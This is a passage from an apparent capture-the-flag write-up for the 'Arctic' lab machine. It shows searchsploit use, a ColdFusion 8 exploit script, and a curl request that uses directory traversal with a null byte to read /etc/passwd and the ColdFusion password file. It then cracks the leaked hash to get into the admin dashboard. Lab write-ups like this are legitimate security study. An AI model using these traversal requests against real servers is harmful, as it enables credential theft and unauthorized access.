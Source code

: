 ```bash
searchsploit -m multiple/remote/14641.py
mv 14641.py cfusion_exploit.py
python3 cfusion_exploit.py
python2 cfusion_exploit.py

python2 cfusion_exploit.py 10.10.10.11 8500 ../../../../../../../../etc/passwd

cat cfusion_exploit.py
curl -s -X GET "http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en"
# http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../lib/password.properties%00en         :(
```

<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

There is another exploit written in **Ruby** that also exploits a **Directory Traversal**, I just have to analyze the code carefully to understand that it uses the same **URL** and leaks the same configuration file as the first script I downloaded. Now I just need to crack the hash I found in **[Crackstation](https://crackstation.net/){:target="_blank"}** and if I try it in the authentication panel I succeed in accessing the **ColdFusion** Dashboard.

```bash
searchsploit adobe coldfusion 8
# multiple/remote/16985.rb
searchsploit -x multiple/remote/16985.rb
#      --> OptString.new('URL' .... '/CFIDE/administrator/' ])
#      --> OptString.new('TRAV'.... ../../../../ColdFusion8/lib/password.properties%00en', nil ])
#      --> url = datastore['URL']+"enter.cfm"
#      --> locale = "?locale="
```

<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
